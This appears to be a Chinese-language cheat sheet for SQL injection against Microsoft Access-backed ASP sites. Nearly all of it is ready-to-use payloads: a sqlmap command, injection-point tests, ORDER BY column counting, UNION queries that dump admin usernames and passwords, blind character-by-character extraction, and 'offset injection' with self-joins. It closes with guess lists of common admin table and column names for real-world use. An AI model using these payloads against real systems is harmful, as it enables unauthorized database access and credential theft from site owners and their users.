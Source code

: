 Access数据库没有记录所有表名和列名的表，也就意味着我们需要依靠字典进行猜解表名和列

Access数据库中没有注释符号.因此 /**/ 、 -- 和 # 都没法使用。

sqlmap语句：sqlmap -u "http://test.com/1.asp?id=1" --tables

普通注入\
判断注入点

在参数后面加 单引号

http://www.example.com/new_list.asp?id=1' #页面报错

http://www.example.com/new_list.asp?id=1 and 1=1 #页面正常

http://www.example.com/new_list.asp?id=1 and 1=2 #页面报错

猜字段： 1 order by 4 报错 1 order by 3 正确

有回显：\
?id=-1 union select 1,2,3,4,5,6,7,8,9,10 from admin（此时页面有显示2、3）

查列：and exists (select 列名 from 表名) （假设存在user、password）

?id=3 and exists (select * from test)

?id=3 and exists (select * from admin)

?id=3 and exists (select name from admin) 报错，说明不存在

?id=3 and exists (select username from admin) 说明存在username

?id=3 and exists (select password from admin) 说明存在password

?id=-1 union select 1,2,3,4,5,6,7,8,9,10 找到注入位

?id=-1 union select 1,user,password,4,5,6,7,8,9,10 from admin（即可爆出账号密码）

无回显：
查表：and exists (select * from 表名) 存在的话就返回正常 不存在就返回不正常

查列：and exists (select 列名 from 表名)

查内容：and (select top 1 asc(mid(user,1,1))from admin)=97

and (select top 1 asc(mid(user,2,1))from admin)=97 猜字段(username)中第一条记录内容的第二个字符

and (select top 2 asc(mid(user,1,1))from admin)=97 猜字段(username)中第二条记录内容的第一个字符


偏移注入（回显数连续）\
假设已经判断存在admin表，order by下判断有35行，且回显如下回显字段连续\
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,* from admin --返回到一个错误页面提示查询语句出错，因此admin表的列数为6

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35 from admin

因为回显如下图 28 29 30是连着的，直接在27后加表名.*

偏移注入（常规操作）\
Access偏移注入：表名知道，列名无法获取的情况下。

存在注入点，且order by下判断出字段数为22行

爆出显位

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin

*****号判断直到页面错误有变化

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin 正确

说明admin有6个字段

Access****偏移注入，基本公式为：

order by 出的字段数减去*号的字段数，然而再用order by的字段数减去2倍刚才得出来的答案；

也就是：

* = 6个字符

2 × * = 12个字符

22 - 12 = 10个字符

一级偏移语句：

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,* from (admin as a inner join admin as b on a.id = b.id)

二级偏移语句：

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id = b.id)inner join admin as c on a.id=c.id)

实战常见的表和列（也可以用sqlmap的，但是量大且效率低）

常见的表有（最后根据企业名的缩写搭配上admin、user、name）

admin admins admin_user admin_usr admin_msg admin_login user username manager msg_user msg_login useradmin product、news、usr、system、article、customer、area

admin_id、admin_name、admin_password

常见的列

admin admin_user username password passwd pass pwd users usr user_login user_name login_name name等等
